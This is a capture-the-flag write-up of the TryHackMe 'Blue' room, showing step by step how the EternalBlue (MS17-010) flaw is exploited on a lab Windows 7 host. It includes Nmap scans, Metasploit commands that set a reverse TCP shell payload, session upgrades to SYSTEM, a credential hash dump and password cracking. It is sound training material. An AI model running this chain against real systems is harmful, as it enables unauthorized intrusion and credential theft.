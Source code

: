 
# **Introduction**

This writeup covers the TryHackMe room [Blue](https://tryhackme.com/room/blue), which focuses on exploiting a critical vulnerability known as **MS17-010 (EternalBlue)** in a Windows 7 machine. The room is designed for beginners to learn how the EternalBlue exploit works, how to identify it using Nmap, and how to leverage Metasploit to gain access.

# Recon :

the machine does not respond to ping (ICMP) so we will use the `-Pn` flag to disable Ping
````bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:24 EDT
Nmap scan report for 10.10.242.215
Host is up (0.60s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 62.72 seconds

````

now let s do a more profond scan 
````bash 
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn -sV -sC -p 135,139,445,3389,49152,49153,49154,49158,49159 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:31 EDT
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:36 remaining)
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:38 remaining)
Nmap scan report for 10.10.242.215
Host is up (0.74s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2025-07-14T14:32:27+00:00; +3s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-14T14:32:12+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-13T14:10:31
|_Not valid after:  2026-01-12T14:10:31
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-14T09:32:12-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-14T14:32:12
|_  start_date: 2025-07-14T14:10:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:16:4f:66:bb:25 (unknown)
|_clock-skew: mean: 1h00m02s, deviation: 2h14m10s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.77 seconds

````

This Nmap scan provides **a lot of useful intel** so let s break it down :
- **Host OS:** Windows 7 Professional SP1
- **Hostname:** Jon-PC
- **Workgroup:** WORKGROUP
- **RDP (3389):** Enabled
- **SMB (139/445):** Open with dangerous settings (signing disabled) 
- **Multiple RPC ports** open (135 + 4915x range)
- **No ping (ICMP) required `-Pn` used**

#### Most important info :
```
smb-security-mode: message_signing: disabled (dangerous, but default)
````

after a quick internet search i found that  it  allows **Man-in-the-Middle (MitM)** attacks and **pass-the-hash**.
- **Exploit possibilities:**
    - EternalBlue (MS17-010)
    - SMB Relay attacks
    - Null session enumeration
we will go with EternalBlue since it s this room is made for it


# Gain Access :

Let's launch Metasploit and look for eternal blue 
![[Pasted image 20250714154943.png]]
we will choose the first one now let s ceck what options do we need to provide so we ccan run the exploit 
![[Pasted image 20250714155342.png]]
the only required option is `RHOSTS` which should be the one provided with your machine and i ll have to change the `LHOST` which was an ip address that i got from a different room
you can change them by typing :

```bash
set RHOSTS <machine ip address>
set LHOST <your ip address>
```

when it comes to the payload the one that is in the image should work fine if you have a different one just type : 

````bash 
set payload windows/x64/shell/reverse_tcp
````

now everything is set let s run the exploit you can simpy do that buy typing 
`run` or `exploit` .
if everything worked fine you should get the meterpreter which looks like this 
![[Pasted image 20250714160401.png]]
now  we ll try to escalate privileges .

# Escalation :

Let s start by backgrounding this session ( press CTRL+Z ) and try to upgrade our session. 
When you exploit a system, you might get a **basic shell** — but it’s very limited. Upgrading it to a **Meterpreter session** gives you **powerful post-exploitation features**. 
you can do this in an easy way  just background your session as we said then type :
```bash 
sessions -u < ur session number >
```
which will create a upgraded session after  that type 
```bash
*> sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         shell x64/windows                                      10.11.142.91:4444 -> 10.10.242.215:49237 (10.10.242.215)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.11.142.91:4433 -> 10.10.242.215:49250 (10.10.242.215)

```
to switch to the meterpreter session type `sessions -i 2` and VOILA you have a meterpreter 
you can do lots of stuff  like showing the systems info and seeing the running processes.
you can check [Metasploit cheat sheet](https://github.com/r4y-br/Cybersecurity-101/blob/main/Metasploit.md) to try learn the commands tthat you can run on the meterpreter .
![[Pasted image 20250714162621.png]]

# Crack :
the room asks us to crack  the non default user's password  we can dump the hashes  by running :

````bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

````

now we will need to crack the passwords hash we  can either use john the ripper or use   [crackstation](https://crackstation.net/) which is more convinient .
![[Pasted image 20250714163700.png]]

# Finding the flags :

 Just use the meterpreter for your advantage and make it do the hard work  for u :
 ```bash
meterpreter > search -f *flag*
Found 6 results...
==================

Path                                                             Size (bytes)  Modified (UTC)
----                                                             ------------  --------------
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk  482           2019-03-17 15:26:42 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk  848           2019-03-17 15:30:04 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk  2344          2019-03-17 15:32:52 -0400
c:\Users\Jon\Documents\flag3.txt                                 37            2019-03-17 15:26:36 -0400
c:\Windows\System32\config\flag2.txt                             34            2019-03-17 15:32:48 -0400
c:\flag1.txt                                                     24            2019-03-17 15:27:21 -0400


``` 


#  **Conclusion**
> 
> The _Blue_ room provided a great introduction to identifying and exploiting SMB vulnerabilities, specifically the infamous **MS17-010 (EternalBlue)** flaw affecting Windows 7. Through careful enumeration and the use of Metasploit, I was able to gain a reverse shell and access the target system.
> 
> This challenge highlights the importance of keeping systems up to date and demonstrates how a single unpatched vulnerability can lead to full system compromise. Overall, _Blue_ was a valuable learning experience that reinforced core penetration testing techniques such as service enumeration, vulnerability identification, and exploitation using Metasploit.


